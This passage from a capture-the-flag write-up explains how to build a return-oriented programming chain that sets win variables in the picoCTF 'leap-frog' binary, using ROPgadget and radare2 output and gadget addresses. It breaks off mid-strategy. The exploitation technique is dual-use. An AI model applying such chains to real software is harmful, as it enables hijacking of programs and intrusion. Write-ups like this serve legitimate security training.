 The command that sets `win3` to `true` is `mov byte [eax + 0x3f], 1`. However, we can't jump directly to it - our `eax` value won't match the address of `win3`. 

`eax` gets its value from:
```assembly
call sym.__x86.get_pc_thunk.ax;[oa]
add eax, 0x198e
```

However if we jump all the way there, we will fail the checks related to `win1 && !win1`.

Therefore, we need to find a way to directly modify `win3` (`0x0804a03f`):
```
[0x08048666]> is~win
045 ---------- 0x0804a03d GLOBAL    OBJ    1 win1
046 ---------- 0x0804a03f GLOBAL    OBJ    1 win3
064 ---------- 0x0804a03e GLOBAL    OBJ    1 win2
```

Once that's done, we can call `leap2` and `leapA` in order to set `win2` and `win1` to `true`, and continue to `display_flag` in order to get the flag.

We start by using `ROPgadget` to check which gadgets allow us to write to a memory address:
```
root@kali:/media/sf_CTFs/pico/leap-frog# ROPgadget --binary rop  | grep "\["
...
0x080485f3 : mov byte ptr [eax + 0x3d], 1 ; nop ; pop ebp ; ret
...
```

From the options provided by the tool, the best one actually seemed like the one we already met in `leap3`, adding `0x3d` to `eax` and setting the value to `1`. We just need to make sure that `eax == 0x0804a03f - 0x3d == 0x804a002` before jumping to that command.

How do we set `eax` to `0x804a002`? Couldn't find anything easy like `pop`-ing a value from the stack (which we control) into `eax`. There was a gadget that allowed `pop`-ing into `ebx`, but no easy way to transfer from `ebx` to `eax`. The best thing I could find was a gadget which adds a value to `al`:
```assembly
0x08048ac0 : add al, byte ptr [ebp - 0x3b] ; ret
``` 

Therefore, my strategy was as follows:

1. Set `eax` to a value very close to the address of `win3`. This can be accomplished by simply calling `leapA`, which leaves `eax`'s value as the address of `win1` when exiting the function.
2. Add the missing delta (`&win3 - &win1 = 0x0804a03f - 0x0804a03d = 2`) to `eax` by using the gadget at `0x08048ac0`. Since we control `ebp`, we can point it to an address which satisfies the condition `ebp - 0x3b == 2`:
```
[0x080484d0]> /x 02000000
Searching 4 bytes in [0x804a03c-0x804a040]
hits: 0
Searching 4 bytes in [0x8049f08-0x804a03c]
hits: 1
Searching 4 bytes in [0x8048000-0x8048bbc]
hits: 6
0x08049f80 hit1_0 02000000
0x080480b4 hit1_1 02000000
0x08048180 hit1_2 02000000
0x080481ac hit1_3 02000000
0x08048344 hit1_4 02000000
0x08048a20 hit1_5 02000000
0x08048bb0 hit1_6 02000000
```
3. Call the gadget at `0x080485f3` to set `win3` to `1`.
4. Proceed with calling the other functions...
